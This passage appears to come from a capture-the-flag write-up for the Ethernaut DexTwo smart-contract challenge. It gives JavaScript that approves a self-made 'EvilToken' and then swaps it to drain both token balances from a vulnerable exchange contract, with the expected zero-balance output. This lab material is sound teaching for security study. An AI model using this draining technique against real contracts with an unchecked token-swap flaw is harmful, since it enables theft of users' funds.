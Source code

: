 This establishes an initial balance of 100 EVL in the contract, matching the balances of token1 and token2. This equal balance is crucial for our first swap to work at a 1:1 ratio.

### Step 3: Approve the DexTwo Contract to Spend Our Tokens

Before we can execute the swap function, we need to grant the DexTwo contract permission to transfer our EvilToken. This is where the ERC20 approval mechanism comes in:

```javascript
// Define the minimal ABI for the approve function
const erc20Abi = [
  {
    "constant": false,
    "inputs": [
      {"name": "_spender", "type": "address"},
      {"name": "_value", "type": "uint256"}
    ],
    "name": "approve",
    "outputs": [{"name": "", "type": "bool"}],
    "type": "function"
  }
];

// Create a contract instance for our EvilToken
const evlTokenContract = new web3.eth.Contract(erc20Abi, evlToken);

// Approve the DexTwo contract to spend 300 EVL tokens
await evlTokenContract.methods.approve(instance, "300").send({from: player});
```

This ABI definition provides the interface needed to call the `approve` function on our EvilToken. We approve exactly 300 tokens (100 for the first swap + 200 for the second) to follow the principle of least privilege.

Without this approval step, our exploit would fail because the DexTwo contract uses `transferFrom` in its swap function, which requires prior approval.

### Step 4: Execute the Exploit

Now we can perform the swaps to drain token1 and token2:

```javascript
// Drain token1 by swapping 100 EVL for 100 token1
await contract.swap(evlToken, t1, 100);

// Drain token2 by swapping 200 EVL for 100 token2
await contract.swap(evlToken, t2, 200);

// Verify that we've drained all tokens
await contract.balanceOf(t1, instance).then(v => v.toString()); // "0"
await contract.balanceOf(t2, instance).then(v => v.toString()); // "0"
```

## How It Works Under the Hood
